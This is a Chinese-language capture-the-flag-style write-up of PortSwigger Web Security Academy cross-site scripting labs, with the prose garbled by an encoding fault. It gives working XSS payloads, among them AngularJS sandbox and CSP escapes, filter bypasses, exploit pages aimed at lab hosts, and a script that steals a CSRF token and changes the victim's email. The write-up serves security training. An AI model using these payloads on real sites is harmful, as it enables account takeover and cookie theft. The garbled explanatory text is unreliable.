    

    杩欎竴棰橀渶瑕佷娇鐢ˋngularJS鐨勬紡娲烇紝鏌ョ湅婧愪唬鐮佸彲浠ュ彂鐜?[image-20261112013117503](33.png)

    AngularJS鐗堟湰涓?.7.7锛屽凡缁忕Щ闄や簡娌欑銆傚湪杈撳叆妗嗕腑灏濊瘯杈撳叆{{1+1}}

    

    鍙互鐪嬪埌缁撴灉鏄剧ず涓?锛岃鏄庤杈撳叆鍙互琚紪璇戯紝鎵€浠ヨ緭鍏?

    ```
    {{constructor.constructor('alert(1)')()}}
    ```

    鏃㈠彲浠ユ垚鍔熸墽琛宎lert()

12. #### Reflected DOM XSS

    

    闅忔剰鎼滅储鍚庢煡鐪嬫簮浠ｇ爜鍙互鐪嬪埌锛屽洖鏄炬槸閫氳繃/resources/js/searchResults.js閲岀殑鍑芥暟search瀹炵幇鐨?

    

    杩涘叆resources/js/searchResults.js瑙傚療鍙互鍙戠幇

    鍏朵娇鐢╦son鎺ユ敹鎼滅储缁撴灉锛屽苟涓旂洿鎺ュ皢鎼滅储缁撴灉鎷兼帴杩涗簡eval鍑芥暟銆傚鎵綽p浠ｇ悊鐨勬祦閲忚褰曞彲浠ョ湅鍒?[image-20261112015725258](39.png)

    鎼滅储鍐呭琚姞涓婁簡鍙屽紩鍙凤紝灏濊瘯浣跨敤鍙屽紩鍙风粫杩囨椂鍙戠幇锛屽叾瀵瑰弻寮曞彿杩涜浜嗗鐞?

    

    浣嗙粡杩囨祴璇曞悗鍙互鍙戠幇鍏跺苟鏈鍙嶆枩鏉犺繘琛屽鐞?

    

    鎵€浠ュ彲浠ュ湪鍙屽紩鍙峰墠鍔犲弽鏂滄潬浣垮緱锛岃瀛楃涓插湪琚鐞嗗悗鍙樹负`\\"`浠庤€岃繘琛岀粫杩囥€備负浜嗛槻姝㈠悗闈㈢殑鍙屽紩鍙峰鑷存姤閿欙紝鍦ㄨ繖閲屾埅鏂苟娉ㄩ噴涔嬪悗鐨勫唴瀹癸紝杈撳叆

    ```
    \"+alert(1)}//
    ```

    鍗冲彲杩囧叧

13. #### Stored DOM XSS

    

    杩涘叆棰樼洰鍙互鐪嬪埌涓庝箣鍓嶄笉鍚岋紝杩欓亾棰樹腑璇勮鍖烘槸閫氳繃/resources/js/loadCommentsWithVulnerableEscapeHtml.js涓殑loadComments鍑芥暟瀹炵幇鐨?[image-20261112024421115](44.png)

    璇ュ嚱鏁颁娇鐢╡scapeHTML鍑芥暟瀵圭敤鎴疯緭鍏ュ唴瀹硅繘琛屽鐞?[image-20261112030146856](45.png)

    

    鑰岃瀵焑scapeHTML鍑芥暟鍙互鍙戠幇锛屽畠鍙細瀵瑰瓧绗︿覆涓殑绗竴涓?鍜岀涓€涓?杩涜鏇挎崲锛屾晠鍦╬ayload鍓嶆坊鍔?>鍗冲彲缁曡繃

14. #### Reflected XSS into HTML context with most tags and attributes blocked

    

    鍦ㄨ繖涓€棰樹腑澶у鏁版爣绛惧潎琚嫤鎴簡锛屽彲浠ョ湅鍒拌緭鍏<script>`鏍囩鍚庡脊鍑轰簡鏍囩涓嶅厑璁?

    

    杩欓噷浣跨敤bp杩涜鐖嗙牬銆傚湪https://portswigger.net/web-security/cross-site-scripting/cheat-sheet portswigger缁欏嚭浜嗘墍鏈夌殑鏍囩鍚嶃€備娇鐢↖ntruder妯″潡杩涜鐖嗙牬

    

    杩欓噷浣跨敤body锛屽彂鐜拌缃戦〉鍚屾椂浼氬灞炴€ц繘琛屾嫤鎴?

    

    缁х画浣跨敤bp杩涜鐖嗙牬

    

    

    杩欓噷浣跨敤瀹规槗瑙﹀彂鐨剅esize銆傚湪exploit-server涓瀯閫犳伓鎰忕綉椤?

    ```
    <iframe src="https://0a0600320410fba7807003dc00b100f4.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload="this.style.width='100%'">
    ```

    骞跺彂閫佺粰鍙楀鑰呭嵆鍙畬鎴?

15. #### Reflected XSS into HTML context with all tags blocked except custom ones

    

    鍦ㄨ繖涓€棰樹腑鎵€鏈夊父瑙勬爣绛鹃兘琚睆钄戒簡锛屽彧鑳戒娇鐢ㄨ嚜瀹氫箟鏍囩锛屽悓鏃舵祴璇曞彲浠ュ彂鐜帮紝杩欓娌℃湁灞忚斀灞炴€э紝鎵€浠ヤ娇鐢╫nfocus閰嶅悎hash鎴栬€卆utofocus鑾峰緱鐒︾偣鍗冲彲銆傛瀯閫犳伓鎰忕綉椤?

    <script>
    location='https://0ad800fe0496e4cf835ac96600250002.web-security-academy.net/?search=<abc onfocus=alert(document.cookie) autofocus tabindex=1>'
    </script>

    灏嗗叾鍙戦€佺粰鍙楀鑰呭嵆鍙?

    

16. #### Reflected XSS with some SVG markup allowed

    

    杩欎竴棰樹娇鐢╯vg鏍囩锛岀敱浜巗vg鏍囩闇€瑕侀厤鍚堝叾浠栨爣绛句娇鐢紝鎵€浠ヨ繕鏄厛瀵瑰彲浠ヤ娇鐢ㄧ殑鏍囩鍜屽睘鎬ц繘琛岀垎鐮?

    

    

    鐢变簬浜嬩欢涓彧鏈塷nbegin鑳界敤锛屾墍浠ヤ娇鐢╯vg閰嶅悎animatetransform瑙﹀彂onbegin銆傛悳绱?

    ```
    <svg><animatetransform  onbegin=alert(1)></svg>
    ```

    

    鍗冲彲閫氬叧

17. #### Reflected XSS in canonical link tag

    

    娉ㄦ剰鍒癶ead涓寘鍚綋鍓嶇綉鍧€锛屼笖鏈綔杩囨护

    鑰冭檻鍒板彈瀹宠€呯殑杈撳嚭锛屼娇鐢╝ccesskey灏唜缁戝畾涓哄揩鎹烽敭锛屼笖鐐瑰嚮鏁堟灉涓篴lert()鍗冲彲瑙﹀彂

    璁块棶缃戝潃

    ```
    https://0a97009803eae2c88712a273009600fe.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
    ```

    鍚庣偣鍑诲搴斿钩鍙扮殑蹇嵎閿嵆鍙?

18. #### Reflected XSS into a JavaScript string with single quote and backslash escaped

    

    鍦ㄨ繖涓€棰樹腑鍗曞紩鍙峰拰鍙嶆枩鏉犻兘琚鐞嗕簡锛岃瀵熸悳绱㈢粨鏋滈〉闈㈢殑鍑芥暟

    鍙互娉ㄦ剰鍒拌緭鍏ヨ鐩存帴鎷兼帴杩涗簡js璇彞锛屽悓鏃跺皷鎷彿娌℃湁琚浆鎰忥紝鎵€浠ヨ緭鍏?

    ```
    </script><script>alert(1)</script>
    ```

    鍙互鍏抽棴鍘熸湰script鏍囩锛屽苟寮€鍚竴涓柊鐨勬墽琛屽懡浠?

    

19. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

    

    杩欎竴棰樹腑鍙屽紩鍙峰拰灏栨嫭鍙疯缂栫爜锛屽崟寮曞彿琚浆涔夈€傛煡鐪嬫簮鐮佸彲浠ュ彂鐜帮紝闄や簡瀵硅緭鍏ョ殑澶勭悊澶栧潎涓庝笂涓€棰樼浉鍚?[image-20261112214022801](66.png)

    鐢变簬鍙嶆枩鏉犳病鏈夎澶勭悊锛屼笌12棰樼被浼兼悳绱㈡杈撳叆

    ```
    \';alert(1);//
    ```

    鍗冲彲

20. #### Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

    鍦ㄨ繖涓€棰樹腑杈撳叆鐨勫鐞嗘柟寮忎笌涓婁竴棰樼浉浼硷紝浣嗗弽鏂滄潬涔熻杞箟浜嗭紝鍦ㄨ瘎璁哄尯浠绘剰杈撳叆鍐呭鍚庡彲浠ョ湅鍒?[image-20261112215539691](68.png)

    缃戝潃琚嫾鎺ヨ繘浜唎nclick涓紝鐢变簬棰樼洰娌℃湁澶勭悊`&apos;`涓旀棭浜?JS 瑙ｆ瀽鎵€浠ュ彲浠ヤ娇鐢╜&apos;`杩涜缁曡繃銆傝繘琛岃瘎璁哄苟鍦ㄧ綉鍧€鍚庡姞涓奰&apos;+alert(1)+&apos;`灏嗚鏍囩鎷兼帴涓?[image-20261112222317464](69.png)

    鍦ㄧ偣鍑讳綔鑰呭悕鍚庯紝瑙﹀彂onclick浜嬩欢杩涜€岃Е鍙慳lert

21. #### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

    

    鍦ㄨ繖棰樹腑灏栨嫭鍙凤紝鍗曞弻寮曞彿锛屽弽鏂滄潬锛屽弽寮曞彿鍧囪Unicode杞箟锛岃€岄骞蹭腑鎻愮ず浜嗘敞鍏ョ偣涓烘ā鏉垮瓧绗︿覆

    鍦ㄦ簮浠ｇ爜涓彲浠ョ湅鍒版悳绱㈠唴瀹硅浆涔夊悗鎷兼帴杩涗簡妯℃澘瀛楃涓诧紝鍦ㄦ悳绱㈡涓緭鍏${alert(1)}`鎼滅储鍚庡彂鐜拌Е鍙慳lert

22. Exploiting cross-site scripting to steal cookies

23. Exploiting cross-site scripting to capture passwords

    杩欎袱棰橀渶瑕乥p pro锛岃烦杩?

24. Exploiting XSS to bypass CSRF defenses

    

    棰樼洰瑕佹眰浣跨敤XSS缁曡繃CSRF锛?*璺ㄧ珯璇锋眰浼€?*锛夐槻寰★紝鍦ㄧ櫥褰曢〉闈娇鐢ㄩ鐩彁渚涚殑璐﹀彿鐧诲綍鍚庡彲浠ョ湅鍒版洿鎹㈤偖绠遍€夐」

    浣跨敤bp鎶撳寘鍚庡彲浠ョ湅鍒帮紝鏂伴偖绠变娇鐢╬ost锛屾彁浜ゅ唴瀹规湁鏂伴偖绠卞拰csrf鐨勯槻鎶ょ爜

    

    鍦ㄨ瘎璁哄尯鎻愪氦鍙互鍙戠幇璇勮鍙互浣跨敤XSS娉ㄥ叆js鑴氭湰涓旇瘎璁哄尯鐨勬彁浜よ〃鍗曚腑鍖呭惈csrf鐨勯槻寰＄爜锛屾晠鍒╃敤璇勮鍖轰笂浼?

    ```
    <script>
    var req = new XMLHttpRequest();
    req.onload = function() {
      var token = this.responseText.match(/name="csrf" value="([^"]+)"/)[1];
      var form = document.createElement('form');
      form.action = '/my-account/change-email';
      form.method = 'POST';
      var email = document.createElement('input');
      email.name = 'email';
      email.value = '1@2';
      form.appendChild(email);
      var csrf = document.createElement('input');
      csrf.name = 'csrf';
      csrf.value = token;
      form.appendChild(csrf);
      document.body.appendChild(form);
      form.submit();
    };
    req.open('GET', '/my-account');
    req.send();
    </script>
    ```

    涔嬪悗璁块棶璇ラ〉闈㈢殑鐢ㄦ埛灏嗕細鑷姩灏嗛偖绠辨敼涓?@2

25. Reflected XSS with AngularJS sandbox escape without strings

    

    杩欓瑕佹眰缁曡繃AngularJS鐨勬矙绠憋紝杩涘叆鎼滅储缁撴灉椤甸潰鍙互鐪嬪埌AngularJS鐨勭増鏈负1.4.4锛屽寘鍚矙绠?

    

    鍚屾椂鍙互鐪嬪埌浣跨敤鐨勫嚱鏁?

    

    鍥犱负杈撳叆鍗曞紩鍙蜂細琚紪鐮侊紝鎵€浠ヤ娇鐢╰oString锛屽埄鐢╰oString.constructor.prototype.charAt = [].join鏇挎崲charAt鍑芥暟浠ュ疄鐜版矙鐩掔粫杩囥€傜敱浜庤鍙ヤ細鍦ㄦ洿鏀瑰墠杩涜瑙ｆ瀽锛屾墍浠ュ彧鏈夋洿鍐呭眰鐨勫懡浠ゆ墠浼氫娇鐢ㄦ洿鎹㈠悗鐨刢harAt锛屽洜涓虹鐢ㄤ簡eval锛屾墍浠ヤ娇鐢╫rder杩涜杈撳嚭銆備负浜嗘墽琛岄渶瑕佸皢payload娉ㄥ叆鍒癭$parse(key)`涓殑key锛屾墍浠ュ湪缃戝潃鍚庢柟娣诲姞涓€涓弬鏁?

    ```
    toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
    ```

    

26. #### Reflected XSS with AngularJS sandbox escape and CSP

    

    杩欎竴棰橀渶瑕佸悓鏃剁粫杩囨矙绠卞拰csp锛岃繘鍏ョ綉椤靛彲浠ュ湪bp鐨勪唬鐞嗗巻鍙茶褰曢噷鐪嬪埌缃戠珯csp鐨勮缃紝鍏堕檺鍒朵簡js鑴氭湰鍙兘鍚屾簮锛屾墍浠ヤ娇鐢ˋngularJS缁曡繃

    

    杩欎竴棰樹笌涓婁竴棰樼殑AngularJS鐗堟湰鐩稿悓锛岄渶瑕佺粫杩囨矙绠?

    

    浣跨敤payload

    ```
    <input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x'
    ```

    灏嗗叾杞爜鍚庢嫾鎺ュ湪缃戝潃涓婏紝鍦ㄦ敾鍑婚〉闈娇鐢╨ocation璺宠浆锛屽緱鍒?

    ```
    <script>
    location='https://0a380007045c6571816f200200060017.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'
    </script>
    ```

    鍙戦€佺粰鍙楀鑰呭嵆鍙?

27. #### Reflected XSS with event handlers and `href` attributes blocked

    

    杩欎竴棰樹腑绂佺敤浜嗕簨浠跺拰href灞炴€э紝鐖嗙牬鍚庡彲浠ョ湅鍒?[image-20261113065103684](84.png)

    鍙湁杩欏嚑涓爣绛惧彲浠ヤ娇鐢紝鐢变簬href鏍囩琚姝紝鍚屾椂棰樼洰鍙堣姹備娇鐢紝鎵€浠ヤ娇鐢╯vg鍜宎nimate鍔ㄦ€佺殑缁檃鏍囩娣诲姞href灞炴€с€備娇鐢╬ayload

    ```
